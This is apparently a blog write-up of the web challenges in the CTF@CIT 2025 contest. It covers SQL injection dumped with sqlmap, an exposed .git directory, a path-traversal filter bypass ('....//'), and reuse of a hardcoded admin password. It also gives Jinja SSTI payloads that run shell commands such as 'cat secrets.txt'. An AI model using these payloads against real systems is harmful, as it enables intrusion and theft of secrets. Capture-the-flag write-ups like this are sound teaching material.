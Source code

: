 ```yaml
---
layout: post
title: CTF@CIT 2025 Web Writeup
categories: [CTF, Writeup]
tags: [web, lfi, sqli, ssti, git]
date: 2025-04-30 05:12 +0900
media_subpath: 'https:////raw.githubusercontent.com/T3l3sc0p3/ctf-writeups/master/CTF%40CIT-2025/'
image:
  path: banner.png
---
```


Recently, I cleared all web challenges in CTF@CIT 2025 and this is my writeup about that. Hope you like it~

## Breaking Authentication (750 pts)

![BreakingAuthentication](Web/img/breakingauthentication.png)

At first, I tried `'OR 1=1;--` and I got an error. So this is definitely **SQL Injection** and it uses **MySQL**

Next, I just need to use `sqlmap` to dump the flag :D

```sh
sqlmap -u 'http://23.179.17.40:58001' --method=POST --data="username=123&password=123&login=Login" --dbs --dump
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+

Database: app
Table: users
[4 entries]
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

`Flag: CIT{36b0efd6c2ec7132}`

## Commit & Order: Version Control Unit (782 pts)

![CommitOrderVersionControlUnit](Web/img/commitorderversioncontrolunit.png)

As you see in the title and description, this is probably a vulnerability or a problem that related to [git](https://git-scm.com/)

Some devs may forget to exclude `.git` directory when deploying, which can lead to the exposure of the entire source code, creds, authen keys, and more if someone discovers it

First, I tried `http://23.179.17.40:58002/.git/` and I got 403 response. However, this means that the `.git` directory is existed and not properly excluded so I could exploit it :))

Here I used `git-dumper` to clone that repo

```sh
git-dumper http://23.179.17.40:58002/.git/ test
```

Then I checked the changes in the commit using `git diff master <commit-id>` until I reached the commit `68f8fcd`

In this commit, I found this line:

![flag](Web/img/commitorderversioncontrolunit-flag.png)

This is a base64, so I decode it and get the flag

`Flag: CIT{5d81f7743f4bc2ab}`

## How I Parsed your JSON (868 pts)

![HowIParsedyourJSON](Web/img/howiparsedyourjson.png)

This challenge is quite interesting because I was wrong at first. When I saw the **SELECT** query, column, and table, I immediately concluded that it was an **SQL Injection** vulnerability

I tried `/select?record=*&container=employees` and it shows all the information as it was actually dumped, but everything is useless

Next, I changed to `/select?record=*&container[]=employees`, add square brackets to turn it into array. This gives me a bunch of errors and also, leak a part of source code

While analyzing this source code, I saw something that make me doubt about my initial conclusion:

```python
File "/app/app.py", line 18, in select

@app.route('/select')

def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')
    container_name = clean_container_name(container_name)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    container_path = os.path.join('containers/', container_name)
    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':

File "/app/app.py", line 36, in clean_container_name

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):

    n = os.path.splitext(n)[0]
        ^^^^^^^^^^^^^^^^^^^
    n = n.replace('../', '')
    return n
```

I realized that this is actually not an **SQL Injection** but a **Path Traversal** vulnerability

Look carefully, I saw that it was trying to open a file based on the `container` param and maybe if `record` param is `*`? ¯\_(ツ)_/¯

In `clean_container_name` function, it removes the file extension and also filters out `../`

However, it only removes these once, so we can easily bypass by doubling it like `....//`

Combine all of these, I tested `/select?record=*&container=....//secrets.txt.txt` and I got the flag

![flag](Web/img/howiparsedyourjson-flag.png)

`Flag: CIT{235da65aa6444e27}`

## Keeping Up with the Credentials (970 pts)

![KeepingUpwiththeCredentials](Web/img/keepingupwiththecredentials.png)

In previous web challenges like **Breaking Authentication** and **How I Parsed your JSON**, you may notice that there is a credential show up: `admin:9f3IC3uj9^zZ`

When using this credential to login, it redirects to `/debug.php`. If you see it similar, this is from **Commit & Order: Version Control Unit** challenge

So I tried to visit `/admin.php` and I was logged out

This is a part of `index.php` source code from **Commit & Order: Version Control Unit**:

```php
<?php

session_start();

if (!isset($_SESSION['username'])) {
    $_SESSION['username'] = 'loggedout';
}

if (isset($_POST['username']) && isset($_POST['password'])){

	$username = $_POST['username'];
	$password = $_POST['password'];

    if ($username == 'admin' && $password == '9f3IC3uj9^zZ'){
        $_SESSION['username'] = $username;
        header('Location: /admin.php', true);
        exit();
    }
    else {
        $_SESSION['username'] = $username;
	  $_SESSION['message'] = 'Invalid username or password.';
    }
}
?>
```

You see the code uses a POST request, while the challenge used a GET request. So I used Burp Suite to change the method to POST and then sent the request again

This time, it redirected me to `/admin.php` and I got the flag

`Flag: CIT{7bf610e96ade83db}`

## Mr. Chatbot (973 pts)

![MrChatbot](Web/img/mrchatbot.png)

Initially, when tested some stuffs of this challenge, I thought that it was a very strict **Prompt Injection** vulnerability. However, I realized it was much deeper than that

After enter **admin** or any strings as username, it will generate a JWT session in cookie, which decodes to `{"admin":"0","name":"admin"}`

First, I tried to crack it but no luck, so I add `admin=1` to POST request. However, this made JWT become weirded so I couldn't decode it using normal web tools

Here I used `flask-unsign` to decode it

![decode](Web/img/mrchatbot-flask-unsign.png)

As you can see, there is another base64 inside this one and decode it returns the username that I entered

So I guess that the server probably use a template like `f"{username}"` for both **name** and **uid**

Noticed that the server are using Python, I tried **Server-Side Template Injection (SSTI)** payload on username combine with `admin=1`

This is the payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)

```python
{% raw %}{{namespace.__init__.__globals__.os.popen('id').read()}}{% endraw %}
```

After that, I take JWT session, decode it and decode the inside base64. And it actually works

Now I just need to `cat secrets.txt` file

```python
{% raw %}{{namespace.__init__.__globals__.os.popen('cat secrets.txt').read()}}{% endraw %}
```

![flag](Web/img/mrchatbot-flag.png)

`Flag: CIT{18a7fbedb4f3548f}`

Thanks for reading :))

![clear](https://i.imgur.com/sptDLTz.png)
